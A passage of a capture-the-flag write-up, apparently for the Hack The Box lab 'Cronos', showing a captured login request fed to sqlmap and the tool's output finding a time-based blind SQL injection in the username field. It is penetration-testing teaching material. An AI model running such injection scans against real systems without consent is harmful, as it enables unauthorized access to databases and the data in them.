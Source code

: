Great, so we found a login panel! Let's try to run `sqlmap` on it to see if it's vulnerable to SQL injection. To do this, we're going to intercept a login request with Burp Suite (with `admin` for the username and a blank password), save it as a file and then pass it to `sqlmap` like so: `$ sqlmap -r login.req`.

```bash
$ sqlmap -r login.req
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.4.3#stable}
|_ -| . [']     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:56:17 /2020-03-30/

[10:56:17] [INFO] parsing HTTP request from 'login.req'
[10:56:17] [WARNING] provided value for parameter 'password' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[10:56:17] [INFO] testing connection to the target URL
[10:56:17] [INFO] testing if the target URL content is stable
[10:56:17] [INFO] target URL content is stable
[10:56:17] [INFO] testing if POST parameter 'username' is dynamic
[10:56:18] [WARNING] POST parameter 'username' does not appear to be dynamic
[10:56:18] [WARNING] heuristic (basic) test shows that POST parameter 'username' might not be injectable
[10:56:18] [INFO] testing for SQL injection on POST parameter 'username'
[10:56:18] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[10:56:18] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[10:56:18] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[10:56:19] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[10:56:19] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[10:56:19] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[10:56:20] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'
[10:56:20] [INFO] testing 'Generic inline queries'
[10:56:20] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[10:56:20] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[10:56:20] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[10:56:21] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[10:56:31] [INFO] POST parameter 'username' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n]
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n]
[10:56:36] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[10:56:36] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
got a 302 redirect to 'http://admin.cronos.htb:80/welcome.php'. Do you want to follow? [Y/n]
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [y/N]
[10:56:40] [INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N]
sqlmap identified the following injection point(s) with a total of 72 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
```